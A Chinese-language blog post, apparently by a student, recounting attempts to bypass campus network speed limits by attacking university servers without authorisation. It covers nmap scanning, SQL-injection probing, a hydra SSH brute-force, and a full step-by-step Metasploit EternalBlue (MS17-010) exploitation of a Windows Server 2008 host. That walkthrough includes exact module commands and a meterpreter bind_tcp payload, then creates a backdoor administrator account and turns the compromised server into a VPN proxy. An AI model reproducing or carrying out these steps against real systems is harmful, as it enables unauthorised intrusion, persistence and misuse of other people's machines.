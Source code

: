 ## 校园网折腾总结

#### 前景提要

* 心路历程
    * 从最开始的 10Mb 降到 4Mb，勉强可以忍受，但前几天降到了 1Mb，有点承受不住，而且收费价格...
    * 所以有想法要搞一波事

#### 思路

1. 最开始是抓了几个包，看看是怎么限速的，没看出来（好像是**arp劫持**？
    * 而学校的路由器是我无法控制的，所以arp劫持的思路绑定不了固定mac地址...此方法弃之
2. 搞一台内网的服务器，搭个代理，绕过限速
    1. 开始用 nmap 扫一下 校园网登陆界面的ip，**8080端口**开着，看了一下，是管理员登陆界面，php搞的，试了一下**SQL注入**，没找到注入点...此方法弃之
    2. **22端口**也开着 ( 本身是Linux的服务器 ) ，所以想爆破一下，用 **hydra** 爆破，字典是 **rockyou.txt**，然后我就和朋出去喝酒了，让电脑自己跑了6个小时，无果（之后还换了其他的内网开通22端口的服务器来爆破，依旧没效果...此方法弃之
3. 把两个校园网账号叠加，自己搭一个有负载均衡的路由器，至少理论上网速是可以变为2倍的
    * 没刷硬件，用虚拟机搞了个软路由，用的**iKuai路由**，结果发现速度也就1.5倍（而且负载均衡有时候失效...此方法弃之
4. 重回搭代理的思路
    * 这次扫出来几个Windows的服务器，而且是2008版的server，所以**MS17-010**了解一下，也就是半年前的那个席卷全球的勒索病毒(WannaCry)的利用的永恒之蓝漏洞(EternalBlue)
    * 攻进去后发现这机器没开远程服务，开启需要重启，而这服务器的内存占用96%，基本都是在跑SQL server，不敢重启，于是攻了另一台服务器，就在跑一个phpinfo，遂利用这太服务器当代理
    * 但开了VPN和NAT后，发现速度并没有提升...
    * 忍痛得出结论，限速是在通过登陆账号获取ip后进行的，也就是大概可能是最终连接外网的服务器根据你的ip来决定限速否？不太清楚
    * 其实最开始的思路有一个地方就错了，不应该是登陆校园网账号后再进行端口扫描，而应该是在只连接状态，未登陆账号情况下，可以直通的内网服务器，做代理访问外网，于是扫了半天端口，发现基本是90%是Linux，10%的Windows把445端口关了...卒
5. 认清**我是傻逼**的事实，去营业厅交了38块钱，开了个16Mb的网
    * 测速16Mb基本差不多
    * 无聊重连了一下之前搭的VPN，测速100Mb...Surprise M** F**
    * 难道交钱的不交钱的限速方式有区别？不清楚


#### 攻Windows的过程

* 环境/工具
    * Kali作为攻击系统
    * Windows Server作为被攻击系统
    * [Eternalblue-Doublepulsar-Metasploit](https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit)
    * 

* 过程
    1. 把[Eternalblue-Doublepulsar-Metasploit](https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit)clone下来
    2. 把 `eternalblue_doublepulsar.rb` 放到 `/usr/share/metasploit-framework/modules/exploits/windows/smb`
        * `mv eternalblue_doublepulsar.rb /usr/share/metasploit-framework/modules/exploits/windows/smb`
    3. `msfconsole`
    4. `use exploit/windows/smb/eternalblue_doublepulsar`
    5. `show options`
        * 查看下配置
    6. `set RHOST 目标IP`
        * 如果PLAYLOAD用bind_tcp的话，就不用LHOST了（也就是源Kali的IP）
    7. `set RPORT 445`
        * 保证攻击的是445端口
    8. `set TARGETARCHITECTURE x64`
        * 这个要看攻击的服务器是x86还是x64了，选择错了的话后面好像不能`create session`
    9. `set payload windows/meterpreter/bind_tcp`
        * 最开始用的是 `reverse_tcp` 但是不能`create session`，最后[在GitHub上搜到的解决办法是用的 `bind_tcp`](https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit/issues/22)
    10. `set PROCESSINJECT explorer.exe`
        * 尝试用过`lsass.exe`, `svchost.exe`都不行
    11. `exploit`
        * 开始攻击
    12. 成功的话，会拿到 `meterpreter`
    13. 然后可以新建一个用户
        * `run getgui -u 用户名 -p 密码`
            * ps: 有的Windows的密码有要求，按提示来就好
            * pps: 提示可能给你中文的，在英文的Kali的console上可能乱码，把terminal的编码改为gbk就可以了
    14. 提权
        * [把新用户提升到管理员权限](https://www.windows-commandline.com/add-user-to-group-from-command-line/)
            1. 在 `meterpreter` 里用 `shell` 命令进入Windows的console（即cmd）中
            2. `net localgroup administrators 用户名 /add` 把新用户加入到 Administrators 组，这样就可以远程登陆了
    15. 在另一台自己的Windows上开启远程桌面，输入刚才新建用户和密码登陆
    16. 进入拿到的`Windows Server`, 现在这台电脑是你的了

* 关于在Windows上搭VPN
    * [Windows server 2008 搭建***服务](http://blog.51cto.com/skytech/626640)
        * 基本上按照这个走没太大问题
            * ipv4动态访问就可以，不用静态地址池
            * 安全里的加密策略不行的话改一改试试，我也不太确定
            * 更改登陆用户的属性，把通过NPS访问控制改成允许访问
    * 在刚才那一步之前可能没有开启[路由和远程访问服务 (RRAS)](https://msdn.microsoft.com/zh-cn/library/dn614140(v=ws.11).aspx)
        * 改一下服务的配置
            * [How to Start/Stop Routing and Remote Access service](https://computerstepbystep.com/routing_and_remote_access_service.html)
    * 基本上服务端就配置完了，客户端新建一个VPN客户端连接一下就可以了，用户名和密码就是刚才登陆Windows Server的账号密码